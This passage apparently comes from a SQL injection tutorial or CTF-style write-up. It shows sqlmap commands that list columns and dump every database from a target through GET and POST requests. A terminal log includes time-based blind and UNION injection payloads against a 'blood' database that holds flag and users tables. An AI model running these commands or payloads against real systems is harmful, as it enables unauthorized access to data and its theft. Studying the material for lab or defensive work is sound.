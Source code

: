 `sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns`


**Using POST based Method**

`sqlmap -r req.txt -D blood -T blood_db --columns`

`sqlmap -r req.txt -D <database_name> -T <table_name> --columns`


```
           
nare@nare$ sqlmap -r req.txt -D blood -T blood_db --columns
[19:35:57] [INFO] parsing HTTP request from 'req.txt'
[19:35:57] [INFO] resuming back-end DBMS 'mysql'
[19:35:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:35:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:35:58] [INFO] fetching tables for database: 'blood'
[19:35:58] [WARNING] reflective value(s) found and filtering out
Database: blood
[3 tables]
+----------+
| blood_db |
| flag     |
| users    |
+----------+

```

Or we can simply dump all the available databases and tables using the following commands.


**Using GET based Method**

`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all`

`sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all`


**Using POST based Method**

`sqlmap -r req.txt -D <database_name> --dump-all`
